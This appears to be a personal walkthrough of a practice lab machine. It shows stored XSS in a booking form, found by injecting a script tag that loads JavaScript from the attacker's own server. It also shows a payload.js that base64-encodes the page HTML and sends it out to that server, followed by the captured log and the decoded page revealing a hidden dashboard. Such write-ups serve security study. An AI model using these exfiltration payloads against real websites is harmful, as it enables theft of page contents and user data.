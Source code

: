 `http://192.168.187.88`
![[Pasted image 20250511224117.png]]
`http://192.168.187.88/contact.html`
![[Pasted image 20250511224226.png]]leads to `http://192.168.187.88/booking`
![[Pasted image 20250511224342.png]]
testing `xss`
![[Pasted image 20250511224846.png]]
testing `xss` to see if im able to hit my own python server with `<script src="http://192.168.45.181:8000/xss.js"></script>`
![[Pasted image 20250511225536.png]]was able to hit the server, this is an `xss` vulnerability
![[Pasted image 20250511225613.png]]
while on the website i am able to query for `window.document.body.innerHTML` - this shows the `html` that is being used
![[Pasted image 20250511233545.png]]
created `payload.js` to grab the contents of the page and `base64` it and send it back to `my python3` server
```bash
┌──(root💀gobots)-[12May2025 03:52:59]-[/home/kali/SUT/Construction]                                                  
└─# cat payload.js                                         
window.location.href="http://192.168.45.181:8000/a?b=" + btoa(window.document.body.innerHTML);    
```
sent the payload off with this
```bash
<script src="http://192.168.45.181:8000/payload.js"></script>
```
![[Pasted image 20250512001615.png]]
got the `base64encoded` results
```bash
192.168.187.88 - - [12/May/2025 03:53:05] "GET /a?b=CiAgPGRpdiBjbGFzcz0iaGVyb19hcmVhIj4KICAgIDwhLS0gaGVhZGVyIHNlY3Rpb24gc3RyYXRzIC0tPgogICAgPGhlYWRlciBjbGFzcz0iaGVhZGVyX3NlY3Rpb24iPgogICAgICA8ZGl2IGNsYXNzPSJjb250YWluZXItZmx1aWQiPgogICAg
ICAgIDxuYXYgY2xhc3M9Im5hdmJhciBuYXZiYXItZXhwYW5kLWxnIGN1c3RvbV9uYXYtY29udGFpbmVyICI+CiAgICAgICAgICA8YSBjbGFzcz0ibmF2YmFyLWJyYW5kIiBocmVmPSJpbmRleC5odG1sIj4KICAgICAgICAgICAgPHNwYW4+CiAgICAgICAgICAgICAgSGV1c3Rvbm4KICAgICAgICAgICAgPC9zcGFu
PgogICAgICAgICAgPC9hPgogICAgICAgICAgPGJ1dHRvbiBjbGFzcz0ibmF2YmFyLXRvZ2dsZXIgbWwtYXV0byIgdHlwZT0iYnV0dG9uIiBkYXRhLXRvZ2dsZT0iY29sbGFwc2UiIGRhdGEtdGFyZ2V0PSIjbmF2YmFyU3VwcG9ydGVkQ29udGVudCIgYXJpYS1jb250cm9scz0ibmF2YmFyU3VwcG9ydGVkQ29udGVu
dCIgYXJpYS1leHBhbmRlZD0iZmFsc2UiIGFyaWEtbGFiZWw9IlRvZ2dsZSBuYXZpZ2F0aW9uIj4KICAgICAgICAgICAgPHNwYW4gY2xhc3M9Im5hdmJhci10b2dnbGVyLWljb24iPjwvc3Bhbj4KICAgICAgICAgIDwvYnV0dG9uPgoKICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbGxhcHNlIG5hdmJhci1jb2xsYXBz
ZSIgaWQ9Im5hdmJhclN1cHBvcnRlZENvbnRlbnQiPgogICAgICAgICAgICA8ZGl2IGNsYXNzPSJkLWZsZXggbXgtYXV0byBmbGV4LWNvbHVtbiBmbGV4LWxnLXJvdyBhbGlnbi1pdGVtcy1jZW50ZXIiPgogICAgICAgICAgICAgIDx1bCBjbGFzcz0ibmF2YmFyLW5hdiAgIj4KICAgICAgICAgICAgICAgIDxsaSBj
bGFzcz0ibmF2LWl0ZW0gIj4KICAgICAgICAgICAgICAgICAgPGEgY2xhc3M9Im5hdi1saW5rIiBocmVmPSJpbmRleC5odG1sIj5Ib21lIDxzcGFuIGNsYXNzPSJzci1vbmx5Ij4oY3VycmVudCk8L3NwYW4+PC9hPgogICAgICAgICAgICAgICAgPC9saT4KICAgICAgICAgICAgICAgIDxsaSBjbGFzcz0ibmF2LWl0
ZW0gYWN0aXZlIj4KICAgICAgICAgICAgICAgICAgPGEgY2xhc3M9Im5hdi1saW5rIiBocmVmPSJhYm91dC5odG1sIj4gQWJvdXQgPC9hPgogICAgICAgICAgICAgICAgPC9saT4KICAgICAgICAgICAgICAgIDxsaSBjbGFzcz0ibmF2LWl0ZW0iPgogICAgICAgICAgICAgICAgICA8YSBjbGFzcz0ibmF2LWxpbmsi
IGhyZWY9InNlcnZpY2UuaHRtbCI+IFNlcnZpY2VzIDwvYT4KICAgICAgICAgICAgICAgIDwvbGk+CiAgICAgICAgICAgICAgICA8bGkgY2xhc3M9Im5hdi1pdGVtIj4KICAgICAgICAgICAgICAgICAgPGEgY2xhc3M9Im5hdi1saW5rIiBocmVmPSJjb250YWN0Lmh0bWwiPkNvbnRhY3QgdXM8L2E+CiAgICAgICAg
ICAgICAgICA8L2xpPgogICAgICAgICAgICAgICAgPGxpIGNsYXNzPSJuYXYtaXRlbSI+CiAgICAgICAgICAgICAgICAgIDxhIGNsYXNzPSJuYXYtbGluayIgaHJlZj0iaHR0cDovL2xvY2FsaG9zdDozMDAwL2E4NmU1NjA2MDFlNTMyOTM0MTE4YTEyNWRjYThhOWEwZmIyNmJjNDVhZGIzYmIzOGEzNzcyZGFhOGVm
MjQ4YTMiPkRhc2hib2FyZCAoVW5kZXIgRGV2ZWxvcG1lbnQpPC9hPgogICAgICAgICAgICAgICAgPC9saT4KICAgICAgICAgICAgICA8L3VsPgogICAgICAgICAgICA8L2Rpdj4KICAgICAgICAgIDwvZGl2PgogICAgICAgICAgPGZvcm0gY2xhc3M9ImZvcm0taW5saW5lIG15LTIgbXktbGctMCBtbC0wIG1sLWxn
LTQgbWItMyBtYi1sZy0wIj4KICAgICAgICAgICAgPGJ1dHRvbiBjbGFzcz0iYnRuICBteS0yIG15LXNtLTAgbmF2X3NlYXJjaC1idG4iIHR5cGU9InN1Ym1pdCI+PC9idXR0b24+CiAgICAgICAgICA8L2Zvcm0+CiAgICAgICAgPC9uYXY+CiAgICAgIDwvZGl2PgogICAgPC9oZWFkZXI+CiAgICA8IS0tIGVuZCBo
ZWFkZXIgc2VjdGlvbiAtLT4KICA8L2Rpdj4KCiAgPCEtLSBhYm91dCBzZWN0aW9uIC0tPgogIDxzZWN0aW9uIGNsYXNzPSJhYm91dF9zZWN0aW9uIGxheW91dF9wYWRkaW5nIj4KICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgIDxkaXYgY2xhc3M9ImN1c3RvbV9oZWFkaW5nLWNvbnRhaW5lciI+Cgog
ICAgICAgIAogICAgICAgICAgICA8dWw+CiAgICAgICAgICAgICAgICA8aDQ+Qm9va2luZyAxPC9oND4KICAgICAgICAgICAgICAgIAogICAgICAgICAgICAgICAgPHA+CiAgICAgICAgICAgICAgICAgICAgbmFtZTogPHNjcmlwdCBzcmM9Imh0dHA6Ly8xOTIuMTY4LjQ1LjE4MTo4MDAwL3BheWxvYWQuanMiPjwv
c2NyaXB0PjwvcD48L3VsPjwvZGl2PjwvZGl2Pjwvc2VjdGlvbj4= HTTP/1.1" 404 -    
```
![[Pasted image 20250512001717.png]]
used cyber chef to decode
```http

  <div class="hero_area">
    <!-- header section strats -->
    <header class="header_section">
      <div class="container-fluid">
        <nav class="navbar navbar-expand-lg custom_nav-container ">
          <a class="navbar-brand" href="index.html">
            <span>
              Heustonn
            </span>
          </a>
          <button class="navbar-toggler ml-auto" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
          </button>

          <div class="collapse navbar-collapse" id="navbarSupportedContent">
            <div class="d-flex mx-auto flex-column flex-lg-row align-items-center">
              <ul class="navbar-nav  ">
                <li class="nav-item ">
                  <a class="nav-link" href="index.html">Home <span class="sr-only">(current)</span></a>
                </li>
                <li class="nav-item active">
                  <a class="nav-link" href="about.html"> About </a>
                </li>
                <li class="nav-item">
                  <a class="nav-link" href="service.html"> Services </a>
                </li>
                <li class="nav-item">
                  <a class="nav-link" href="contact.html">Contact us</a>
                </li>
                <li class="nav-item">
                  <a class="nav-link" href="http://localhost:3000/a86e560601e532934118a125dca8a9a0fb26bc45adb3bb38a3772daa8ef248a3">Dashboard (Under Development)</a>
                </li>
              </ul>
            </div>
          </div>
          <form class="form-inline my-2 my-lg-0 ml-0 ml-lg-4 mb-3 mb-lg-0">
            <button class="btn  my-2 my-sm-0 nav_search-btn" type="submit"></button>
          </form>
        </nav>
      </div>
    </header>
    <!-- end header section -->
  </div>

  <!-- about section -->
  <section class="about_section layout_padding">
    <div class="container">
      <div class="custom_heading-container">

        
            <ul>
                <h4>Booking 1</h4>
                
                <p>
                    name: <script src="http://192.168.45.181:8000/payload.js"></script></p></ul></div></div></section>4Ïÿ]xÓ
```
got a new `http` endpoint
![[Pasted image 20250512001851.png]]

```bash
http://192.168.187.88:3000/a86e560601e532934118a125dca8a9a0fb26bc45adb3bb38a3772daa8ef248a3
```
got local.txt
![[Pasted image 20250512001940.png]]